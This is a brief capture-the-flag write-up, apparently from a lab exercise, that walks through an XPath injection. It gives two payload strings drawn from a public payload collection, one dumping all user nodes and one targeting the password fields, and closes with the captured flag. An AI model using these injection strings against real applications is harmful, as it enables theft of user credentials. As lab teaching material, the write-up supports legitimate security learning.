

Here we uses this payload from payloadAllTheThings
```
')] | //user/*[contains(*,' 
```
It says:
concat to the results from before `|`,
and select all nodes (`/*`) under user (`//user`), which contains anything (`contains(*`)

We can on the same way ask for this query, and by this way search only in the passwords section:
```
')] | //user/password[contains(*,' 
```



**Flag:** **_`MB5PRCvfOXiYejMcmNTI`_**